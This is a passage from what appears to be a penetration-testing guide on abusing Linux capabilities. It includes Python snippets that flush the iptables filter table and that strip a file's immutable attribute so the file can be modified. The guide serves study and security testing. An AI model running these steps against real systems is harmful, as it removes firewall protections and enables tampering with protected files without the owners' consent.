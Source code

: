 ### CAP\_NET\_ADMIN + CAP\_NET\_RAW

**This means that it's possible modify firewall rules.** You cannot escalate privileges directly with this capability.

#### Example with binary

Lets suppose that the **python binary** has these capabilities.

```python
#Dump iptables filter table rules
import iptc
import pprint
json=iptc.easy.dump_table('filter',ipv6=False)
pprint.pprint(json)

#Flush iptables filter table
import iptc
iptc.easy.flush_table('filter')
```

### CAP\_LINUX\_IMMUTABLE

**This means that it's possible modify inode attributes.** You cannot escalate privileges directly with this capability.

#### Example with binary

If you find that a file is immutable and python has this capability, you can **remove the immutable attribute and make the file modifiable:**

```python
#Check that the file is imutable
lsattr file.sh 
----i---------e--- backup.sh
```

```python
#Pyhton code to allow modifications to the file
import fcntl
import os
import struct

FS_APPEND_FL = 0x00000020
FS_IOC_SETFLAGS = 0x40086602

fd = os.open('/path/to/file.sh', os.O_RDONLY)
f = struct.pack('i', FS_APPEND_FL)
fcntl.ioctl(fd, FS_IOC_SETFLAGS, f)

f=open("/path/to/file.sh",'a+')
f.write('New content for the file\n')
```

{% hint style="info" %}
Note that usually this immutable attribute is set and remove using:
